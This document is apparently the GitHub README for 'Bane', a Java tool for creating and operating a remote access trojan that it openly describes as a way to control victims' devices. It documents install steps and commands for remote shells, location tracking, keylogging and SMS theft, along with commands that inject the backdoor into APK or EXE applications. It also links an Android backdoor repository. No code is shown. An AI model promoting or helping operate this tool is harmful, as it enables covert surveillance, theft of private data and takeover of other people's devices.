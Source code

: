 # About

A RAT terminal creator/handler

# How it works

Bane consists of 3 main components:

- Bane the initial terminal interface
- RAT the shell interface which enables you to create, customize RAT
- Shell the rat interface which enables you to control remotely victims

# Requirements

- Java version 8
- Linux/Mac OS it is also fully working for Windows but the terminal interface is not perfectly compatible yet.

# Setup

If you are on a Linux-like system you can use install.sh to add bane as the command otherwise you can use Bane anyway by typing

`java -jar bane.jar`

# Usage

Initially you will be welcomed by the Bane interface there you can choose to use the RAT Interface or the Shell Interface.

`help` to show the commands of the current interface

#### Bane Interface

`rat` to go to the RAT Interface<br>
`shell` to go to the Shell Interface

#### Shell Interface

`start <port>` Creates the server at the specified address and port both are optional<br>
`show` Shows the devices connected to the bane service<br>
`select <name>` Selects the device<br>
`track` Tracks the current position of the device<br>
`shell` Starts a remote shell<br>
`sexit` Closes the remote shell<br>
`news` Returns the notifications<br>
`keylog` Keylogs the device<br>
`name <new name>` Changes the name of the current device<br>
`sms` Returns all the sms of the device

#### RAT Interface

`set <address> <port>` Sets the address and port of the server<br>
`build [apk/exe]` Builds the bane application<br>
`inject [apk/exe] path` Injects bane inside an application

# Backdoor Supported Platforms

- [Android](https://github.com/datteroandrea/banedroid) (currently under development but still open for Alpha tests) 
- Windows (not quite yet)
- Linux/Max OS (not quite yet)

# TODO

- [ ] Authentication
- [ ] RAT Interface
    - [ ] set <address> <port>
    - [ ] build [apk/exe]
    - [ ] inject [apk/...] path
- [ ] Shell Interface
    - [x] start
    - [x] start <port>
    - [x] show
    - [x] select
    - [x] track
    - [x] sopen
    - [x] sclose
    - [ ] news
    - [ ] keylog
    - [x] name
    - [ ] sms
        - [ ] sendsms
        - [ ] getsms
    - [ ] download <file path>
    - [ ] upload <end path>
